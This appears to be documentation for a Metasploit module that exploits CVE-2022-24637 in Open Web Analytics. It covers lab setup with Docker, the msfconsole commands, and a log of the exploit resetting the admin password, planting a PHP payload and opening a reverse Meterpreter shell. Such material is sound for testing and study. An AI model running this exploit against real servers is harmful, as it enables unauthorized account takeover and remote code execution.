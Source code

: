 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated remote attacker to obtain sensitive user information, which can be used to gain admin privileges by leveraging cache hashes. This occurs because files generated with '<?php (instead of the intended "<?php sequence) aren't handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Open https://github.com/Pflegusch/CVE-2022-24637/deployment
    - ``docker compose up -d``
    - Open http://127.0.0.1:8080
    - Follow installation steps using the envs from the ``docker-compose.yml`` file
        - Public URL: ``http://127.0.0.1/``
        - Database Host (docker inspect db-container and get ``IPAddress``, e.g ``172.18.0.2``)
        - Database Port: ``3306``
        - Database Name: ``owa``
        - Database User: ``owa``
        - Database Password: ``Demo12+#``
        - Continue
        - Site Domain: ``http://127.0.0.1``
        - Admin name: ``admin``
        - E-Mail: ``admin@admin.com``
        - Password: ``Demo12+#``

2. Start msfconsole
3. ``use exploit/multi/http/open_web_analytics_rce``
4. ``set RHOSTS 127.0.0.1``
5. ``set RPORT 80``
6. ``set SSL false``
7. ``set LHOST 172.18.0.1`` -> this needs to be bridge IP that got created with the ``docker compose up -d`` command
8. ``check``
9. ``run``

````
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/open_web_analytics_rce) > set SSL false
SSL => false
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > check
[+] 127.0.0.1:80 - The target is vulnerable.
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[+] Connected to http://127.0.0.1:80/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': b42f457df9d9482324ca8fe041f19f1c
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[*] Meterpreter session 3 opened (172.22.0.1:4444 -> 172.22.0.3:47728) at 2023-03-09 13:55:58 +0100
[+] Triggering payload! Check your listener!
[*] You can trigger the payload again at 'http://127.0.0.1:80//owa-data/caches/ERaG8bho.php

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
````